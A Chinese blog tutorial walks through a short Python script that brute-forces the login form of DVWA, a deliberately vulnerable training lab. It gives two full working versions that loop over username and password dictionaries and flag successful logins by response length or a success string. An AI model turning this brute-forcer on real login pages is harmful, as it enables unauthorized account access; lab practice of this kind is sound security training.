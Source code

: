 
--- 
title:  只用了20行Python代码就攻破了网站登录 
tags: []
categories: [] 

---
测试靶机为DVWA，适合DVWA暴力破解模块的Low和Medium等级。

### **关键代码解释**

**url指定url地址**

```
url = "http://192.168.171.2/dvwa/vulnerabilities/brute/"
```

**header设置请求头**

```
header = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0',
    'Cookie':'security=medium; PHPSESSID=geo7gb3ehf5gfnbhrvuqu545i7'
}
```

**payload设置请求参数**

```
payload = {'username':username,'password':password,"Login":'Login'}
```

这一行的作用是作一次get请求，响应信息被变量Response接收。

```
Response = requests.get(url,params=payload,headers=header)
```

**这两行代码循环遍历账号和密码字典文件，之后给他们做笛卡尔积循环暴力破解**

这种方式和burp的Intruder模块的Cluster bomb攻击方式一样。

```
for admin in open("C:\\Users\\admin\\Documents\\字典\\账号.txt"):
    for line in open("C:\\Users\\admin\\Documents\\字典\\密码.txt"):
```

**然后把循环结果存放到csv文件里，用逗号分割数据**

Response.status_code是响应的http状态码，len(Response.content)是http响应报文的长度。

```
result = str(Response.status_code) + ',' + username + ','\
  + password + ',' + str(len(Response.content))
f.write(result + '\n')
```

### 

### **完整代码**

#### 方法一

登陆成功的和失败返回数据不同，所以数据包长度也不同。包长度与其他不同的数据，可能就是正确的账号密码。

```
import requests


url = "http://192.168.171.2/dvwa/vulnerabilities/brute/"
#proxies= {"http":"http://127.0.0.1:8080"}  #代理设置，方便burp抓包查看
header = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0',
    'Cookie':'security=medium; PHPSESSID=bdi0ak5mqbud69nrnejgf8q00u'
}


f = open('result.csv','w')
f.write('状态码' + ',' + '用户名' + ',' + '密码' + ',' + '包长度' + '\n')
for admin in open("C:\\Users\\admin\\Documents\\字典\\账号.txt"):
    for line in open("C:\\Users\\admin\\Documents\\字典\\密码.txt"):
        username = admin.strip()
        password = line.strip()
        payload = {'username':username,'password':password,"Login":'Login'}
        Response = requests.get(url,params=payload,headers=header)
        result = str(Response.status_code) + ',' + username + ','\
            + password + ',' + str(len(Response.content))
        f.write(result + '\n')


print('\n完成')
```

##### 

##### 

##### 运行

<img src="https://img-blog.csdnimg.cn/img_convert/bf382d7811b9173415c607e50dc9d12b.png" alt="bf382d7811b9173415c607e50dc9d12b.png">

这就是脚本发送的数据包

<img src="https://img-blog.csdnimg.cn/img_convert/0cf9c584275956a51bc7718548581f8e.png" alt="0cf9c584275956a51bc7718548581f8e.png">

查看结果

<img src="https://img-blog.csdnimg.cn/img_convert/688717faf61ccc7fc96adaa7169637b1.png" alt="688717faf61ccc7fc96adaa7169637b1.png">

查看包长度与其他不同的数据，登录测试

<img src="https://img-blog.csdnimg.cn/img_convert/c89a2629b9e7e7f2012ce4100e8b1675.png" alt="c89a2629b9e7e7f2012ce4100e8b1675.png">

#### 方法二

这个方法是根据登陆成功的返回特征来判断是否为正确的账号密码，然后把正确的账号密码输出到屏幕和txt文件里。

主要改动在第17到20行

```
import requests


url = "http://192.168.171.2/dvwa/vulnerabilities/brute/"
#proxies= {"http":"http://127.0.0.1:8080"}  #代理设置，方便burp抓包查看
header = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0',
    'Cookie':'security=medium; PHPSESSID=bdi0ak5mqbud69nrnejgf8q00u'
}


f = open('result.txt','w')
for admin in open("C:\\Users\\admin\\Documents\\字典\\账号.txt"):
    for line in open("C:\\Users\\admin\\Documents\\字典\\密码.txt"):
        username = admin.strip()
        password = line.strip()
        payload = {'username':username,'password':password,"Login":'Login'}
        Response = requests.get(url,params=payload,headers=header)
        if not(Response.text.find('Welcome to the password protected area')==-1):
            result = username + ':' + password
            print(result)
            f.write(result + '\n')
            
print('\n完成')
```

##### 

##### 运行

<img src="https://img-blog.csdnimg.cn/img_convert/57ed08353992a126eadc309ad60e5173.png" alt="57ed08353992a126eadc309ad60e5173.png">

<img src="https://img-blog.csdnimg.cn/img_convert/9bbf089bcb70ea1019a7fda3335f11d4.png" alt="9bbf089bcb70ea1019a7fda3335f11d4.png">

**<strong>往期回顾：**</strong>
- - - - - - - - 